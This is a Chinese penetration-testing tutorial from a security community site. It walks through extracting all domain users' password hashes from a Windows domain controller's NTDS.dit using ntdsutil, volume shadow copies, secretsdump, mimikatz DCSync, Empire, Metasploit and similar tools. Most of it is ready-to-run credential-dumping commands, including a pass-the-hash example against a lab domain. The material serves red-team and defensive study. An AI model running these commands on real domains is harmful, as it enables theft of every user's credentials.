


# 域内用户 Hash 获取方式总结 - 先知社区

域内用户 Hash 获取方式总结

- - -

## 文章前言

在渗透测试的过程中，当我们已经是域管权限时就可以实现提取所有域内用户的密码哈希以进行离线破解和分析，这是非常常见的一个操作，这些哈希值存储在域控制器 (NTDS.DIT) 中的数据库文件中，并带有一些其他信息，例如：用户名、散列值、组、GPP、OU 等于活动目录相关的信息，它和 SAM 文件一样都是被操作系统锁定的，因此无法直接复制到其他位置以提取信息，NTDS.dit 文件位于 Windows 以下位置：

```plain
C:\Windows\NTDS\NTDS.dit
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240124094757-99611996-ba5a-1.png)

## NTDS 提取

### NTDSUTIL

NTDSUTIL 是一个命令行工具，它是域控制器生态系统的一部分，其目的是为了使管理员能够访问和管理 Windows Active Directory 数据库，但是，渗透测试人员和 redteam 可以用它来拍摄现有 ntds.dit 文件的快照，该文件可以复制到新位置以进行离线分析和密码哈希的提取

```plain
ntdsutil
activate instance ntds
ifm
create full C:\ntdsutil
quit
quit
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240124094825-a9d1023c-ba5a-1.png)  
之后在 C:\\ntdsutil 中将生成两个新文件夹：Active Directory 和 Registry：  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240124094840-b2adc2b4-ba5a-1.png)  
NTDS.DIT 文件将保存在 Active Directory 中：  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240124094854-bae3e152-ba5a-1.png)  
SAM 和 SYSTEM 文件将保存到 Registry 文件夹中：  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240124094918-c96badea-ba5a-1.png)  
之后可以使用 ntdsdump 进行离线提取 Hash:

```plain
ntdsdump.exe -f ntds.dit -s SYSTEM

#参数说明：
ntdsdump.exe <-f ntds.dit> <-k HEX-SYS-KEY | -s system.hiv> [-o out.txt] [-h] [-t JOHN|LC]
-f    ntds.dit 路径
-k   可选的十六进制格式的 SYSKEY
-s    可选的 system.hiv 路径
-h   导出历史密码记录
-t    导出格式，LC 或 JOHN
-o   导出到指定文件中
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240124094948-db1093c6-ba5a-1.png)  
之后在 CMd5 解密网站进行解密解密即可：[https://www.cmd5.org/](https://www.cmd5.org/)  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240124094958-e15aff14-ba5a-1.png)

### vssadmin

vssadmin 是 WIndows Server 2008 和 Win 7 提供的 VSS 管理工具，可用于创建和删除卷影拷贝、列出卷影拷贝的信息 (只能管理系统 Provider 创建的卷影拷贝)、显示已安装的所有卷影拷贝写入程序等，在内网渗透测试过程中，我们也可以使用 vssadminn 来提取 ntds.dit 文件，流程如下：  
Step 1：在域控制器中打开命令环境，输入如下命令，创建一个 C 盘的影卷拷贝：

```plain
vssadmin create shadow /for=c:
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240124095039-f98df596-ba5a-1.png)  
Step 2:将 NTDS.dit 和 SYSTEM 文件从创建的影卷中复制出来

```plain
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\windows\NTDS\ntds.dit c:\ntds.dit
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SYSTEM C:\SYSTEM
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240124095055-030b3a20-ba5b-1.png)  
之后可以在 C 盘中看到成功复制 ntds.dit 文件：  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240124095109-0bb04896-ba5b-1.png)  
Step 3：之后执行以下命令删除影卷信息：

```plain
vssadmin delete shadows /for=c: /quiet
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240124095128-17164546-ba5b-1.png)  
Step 4：之后通过 impacket 来导出 hash 值

```plain
./secretsdump.py -system /root/vssadmin/SYSTEM -ntds /root/vssadmin/ntds.dit LOCAL
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240124095153-25f97c36-ba5b-1.png)

### vssown.vbs

与 vssadmin 程序类似，Tim Tomes 开发了 vssown([https://github.com/lanmaster53/ptscripts/blob/master/windows/vssown.vbs](https://github.com/lanmaster53/ptscripts/blob/master/windows/vssown.vbs) )，它是一个可视化的基本脚本，可以创建和删除卷影副本，从卸载的卷影副本运行任意可执行文件，以及启动和停止卷影复制服务。  
Step 1:启动影卷拷贝服务

```plain
cscript vssown.vbs /start
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240124095217-343f07ac-ba5b-1.png)  
Step 2：创建一个 C 盘的影卷拷贝

```plain
cscript vssown.vbs /create c
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240124095306-51307cce-ba5b-1.png)  
Step 3:列出当前影卷拷贝

```plain
cscript vssown.vbs /list
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240124095749-fa3ccea8-ba5b-1.png)  
Step 4：复制 ntds.dit、SYSTEM、SAM 文件

```plain
copy  \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2\windows\ntds\ntds.dit C:\vssown\ntds.dit
copy  \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2\windows\system32\config\SYSTEM C:\vssown\SYSTEM
copy  \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2\windows\system32\config\SAM C:\vssown\SAM
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240124095807-05039d12-ba5c-1.png)  
Step 5:查看拷贝的文件

```plain
dir c:\vssown\
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240124095827-10890d5c-ba5c-1.png)  
Step 6：删除影卷拷贝

```plain
cscript vssown.vbs /delete {54ECD66A-570C-4489-956F-9B83E4C8B1B9}
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240124095845-1bb8ffca-ba5c-1.png)  
Step 7：之后使用 impacket 导出 Hash

```plain
./secretsdump.py -system /root/vssown/SYSTEM -ntds /root/vssown/ntds.dit LOCAL
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240124095908-2929720c-ba5c-1.png)

### diskshadow

DiskShadow 是 Microsoft 签名的二进制文件，用于协助管理员执行与卷复制服务（VSS）相关的操作。最初 bohops 在他的博客中写到了这个二进制文件。这个二进制文件有两个交互式和脚本模式，因此可以使用一个脚本文件，它将包含自动执行 NTDS.DIT 提取过程所需的所有命令。脚本文件可以包含以下行，以便创建新的卷影副本，装入新驱动器，执行复制命令并删除卷影副本，在使用时需要注意一点，DiskShadow 二进制文件需要从 C\\Windows\\System32 路径执行，如果从另一个路径调用它，脚本将无法正确执行：

```plain
set context persistent nowriters
add volume c: alias someAlias
create
expose %someAlias% z:
exec "cmd.exe" /c copy z:\windows\ntds\ntds.dit c:\ntds.dit
delete shadows all
reset
```

在 cmd 下执行以下命令：

```plain
diskshadow.exe /s c:\diskshadow.txt
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240124095942-3d568cf6-ba5c-1.png)  
之后查看 c 盘可以看到成功复制文件：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240124095953-43f54688-ba5c-1.png)  
导出 ntds.dit 后，可以键 system.hive 转储，因为 system.hive 中存放着 ntds.dit 的秘钥，如果没有该密钥，将无法查看 ntds.dit 中的信息：

```plain
reg save hklm\system c:\system.hive
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240124100012-4f2ab7e0-ba5c-1.png)  
之后使用 impacket 导出 hash

```plain
./secretsdump.py -system /root/diskshadow/system.hive -ntds /root/diskshadow/ntds.dit LOCAL
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240124100031-5a85ac26-ba5c-1.png)

## NDTS Hash

### Impacket

我们可以使用 impacket 工具包中的 secretsdump 来解析 ntds.dit 文件并导出散列：

```plain
./secretsdump.py -system /root/system.hive  -ntds /root/ntds.dit LOCAL
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240124100114-748765ce-ba5c-1.png)  
impacket 还可以直接通过用户名和散列值进行验证，从远程域控制器中读取 ntds.dit 并转储域散列值：

```plain
./secretsdump.py -hashes aad3b435b51404eeaad3b435b51404ee:41945356c1b2adde08c00d0e48515b7e -just-dc hacke.testlab/administrator@192.168.188.2
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240124100138-829f8b5a-ba5c-1.png)

### esedbexport

在这里我们需要通过安装 libesedb 从 ntds.dit 中导出 dataable 和 link\_table，在终端执行以下命令下载 libesedb：

```plain
git clone https://github.com/libyal/libesedb
cd libesedb/
./synclibs.sh
./autogen.sh
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240124100201-900d6974-ba5c-1.png)  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240124100208-946e21de-ba5c-1.png)  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240124100220-9b95ef64-ba5c-1.png)  
之后执行以下命令安装依赖：

```plain
sudo apt install git autoconf automake autopoint libtool pkg-config
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240124100242-a8a0deda-ba5c-1.png)  
之后执行以下命令对 libesedb 进行编译与安装：

```plain
./configure
make
sudo make install
sudo ldconfig
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240124100319-be7cfc70-ba5c-1.png)  
安装完成之后会在系统的/usr/local/bin 目录下看的 esedbexport 程序，如下所示：

```plain
ls /usr/local/bin/ | grep esedbexport
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240124100459-fa53fda2-ba5c-1.png)  
之后使用 esedbexport 进行恢复操作，执行以下命令来提取表信息，操作时间视 ntds.dit 文件的大小而定，如果提取成功会在同一目录下生成一个文件夹，这里我们只提取 dataable 和 link\_table:

```plain
esedbexport -m tables /root/ntds.dit
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240124100518-05c78866-ba5d-1.png)  
导出信息如下所示：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240124100531-0d9ef330-ba5d-1.png)  
之后我们借助 ntdsxtract 来导出散列值，首先我们需要安装该工具：

```plain
git clone https://github.com/csababarta/ntdsxtract.git
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240124100604-2100cd40-ba5d-1.png)  
之后进入文件夹执行以下命令进行安装：

```plain
python setup.py build && python setup.py install
running build
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240124100628-2f811d66-ba5d-1.png)  
之后输入以下命令，将导出的 ntds.dit.export 文件夹和 SYSTEM 文件一并放入 ntdsxtract 文件夹并执行以下命令：

```plain
./dsusers.py ntds.dit.export/datatable.4 ntds.dit.export/link_table.7 output --syshive system.hive --passwordhashes --pwdformat ocl --ntoutfile ntout --lmoutfile lmout | tee all_user.txt
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240124100653-3e8aeaee-ba5d-1.png)  
之后会将域内的所有用户名和散列值导出到 all\_user.txt 中：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240124100712-495f5c8e-ba5d-1.png)

ntds.dit 包含域内的所有信息，可以通过分析 ntds.dit 导出域内的计算机信息以及其他信息，命令如下：

```plain
dscomputers.py ntds.dit.export/datatable.4 computer_output --csvoutfile all_computers.csv
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240124100737-586c6686-ba5d-1.png)

### NTDSDumpex

NTDSDumpex.exe([https://github.com/zcgonvh/NTDSDumpEx/releases](https://github.com/zcgonvh/NTDSDumpEx/releases) ) 程序也可以用于导出散列值得操作，在使用时只需要将 ntds.dit、SYSTEM、NTDSDumpex.exe 放到同一目录下，之后执行以下命令即可 (效果并不理想，时常出现下面的问题)：

```plain
NTDSDumpex.exe -d ntds.dit -s system
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240124100804-68db8cb8-ba5d-1.png)

## 第三方工具

下面介绍几种常见的域内用户 Hash 获取的方法与策略~

### Mimikatz

项目地址：[https://github.com/gentilkiwi/mimikatz](https://github.com/gentilkiwi/mimikatz)  
项目介绍：mimikatz 用于从 Windows 操作系统内存中提取明文密码、散列、pin 码和 kerberos 票据，同时 mimikatz 还可以执行传递散列、传递票证或构建黄金票证。  
工具使用：  
a、获取所有域内用户的账户信息

```plain
lsadump::dcsync /domain:hacke.testlab /all /csv
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240124100904-8c7aeb00-ba5d-1.png)  
b、通过使用/user 参数指定域用户名来获取特定用户的所有帐户信息，包括其密码哈希

```plain
lsadump::dcsync /domain:hacke.testlab /user:testuser
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240124100927-99f2ca82-ba5d-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240124100936-9f6ea882-ba5d-1.png)  
c、直接在域控制器中执行 Mimikatz，通过 lsass.exe 进程 dump 哈希

```plain
privilege::debug
lsadump::lsa /inject
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240124101003-af409626-ba5d-1.png)

### Empire

提取域内所有用户 hash 值：

```plain
usemodule credentials/mimikatz/dcsync_hashdump
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240124101028-be46580e-ba5d-1.png)  
dump 特定帐户信息：

```plain
(Empire: 8GLZTYXR) > usemodule credentials/mimikatz/dcsync
(Empire: powershell/credentials/mimikatz/dcsync) > set user Al1ex
(Empire: powershell/credentials/mimikatz/dcsync) > execute
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240124101058-d07f2d16-ba5d-1.png)

### Nishang

Nishang 是一个 PowerShell 框架，它让 redteam 和渗透测试人员能够对系统进行攻击性操作，Nishang 中的 VSS 脚本可以用于自动提取所需的文件：NTDS.DIT，SAM 和 SYSTEM，这些文件将被解压缩到当前工作目录或指定的任何其他文件夹中

```plain
Import-Module .\Copy-VSS.ps1
Copy-VSS  //复制到当前目录
Copy-VSS -DestinationDir C:\ShadowCopy\   //复制到指定目录
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240124101122-de67d1b2-ba5d-1.png)

之后通过 Mimikatz 来获取信息：

```plain
lsadump::sam /sam:sam.hive /system:system.hive
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240124101143-eaeb6764-ba5d-1.png)

### Metasploit

```plain
run post/windows/gather/hashdump
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240124101214-fd7a3f0e-ba5d-1.png)

```plain
run post/windows/gather/smart_hashdump
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240124101231-07ff4406-ba5e-1.png)  
如果已经拿到域控制器的现有 Meterpreter 会话，则可以使用命令 hashdump，但是，此方法不被认为是安全的，因为可能会使域控崩掉  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240124101243-0ebfe566-ba5e-1.png)

### fgdump

fgdump([http://www.foofus.net/fizzgig/fgdump/fgdump-2.1.0-exeonly.zip](http://www.foofus.net/fizzgig/fgdump/fgdump-2.1.0-exeonly.zip) ) 是一个比较老的可执行文件，可提取的 LanMan 和 NTLM 的密码哈希值，如果已获取本地管理员凭据，则可以在本地或远程执行。在执行期间，fgdump 将尝试禁用可能在系统上运行的防病毒软件，如果成功，则会将所有数据写入两个文件中，如果存在防病毒或端点解决方案，则不应该将 fgdump 用作 dump 密码哈希的方法以避免检测，因为大多数防病毒公司 (包括 Microsoft 的 Windows Defender) 都会对将它 kill 掉

```plain
fgdump.exe
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240124101305-1c0a5418-ba5e-1.png)  
之后可以通过检查.pwdump 文件的内容来 get 密码哈希值  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240124101318-23bfc508-ba5e-1.png)

PS:速度超级慢，慢的卡死，强烈不推荐~

### Invoke-DCSync

Invoke–DCSync([https://gist.github.com/monoxgas/9d238accd969550136db](https://gist.github.com/monoxgas/9d238accd969550136db)) 是 Nick Landers 利用 PowerView 开发的 powershell 脚本，Invoke-ReflectivePEInjection 和 PowerKatz 的 DLL wrapper 调用 Mimikatz 的 DCSync 方法检索哈希值，直接执行该函数将生成以下输出：

```plain
Import-Module ./Invoke-DCSync.ps1
Invoke-DCSync
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240124101357-3b2bb526-ba5e-1.png)

从上面可以看到结果将格式化为四个表：Domain，User，RID 和 Hash，当使用参数-PWDumpFormat 执行 Invoke-DCSync 将以以下格式检索哈希：

```plain
user：id：lm：ntlm :::
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240124101417-46d2fa2e-ba5e-1.png)

## 文末小结

本篇文章主要介绍了域内用户 Hash 的获取方法，同样在内网渗透中很有用，后续有机会再给大家分享其他的内网内容
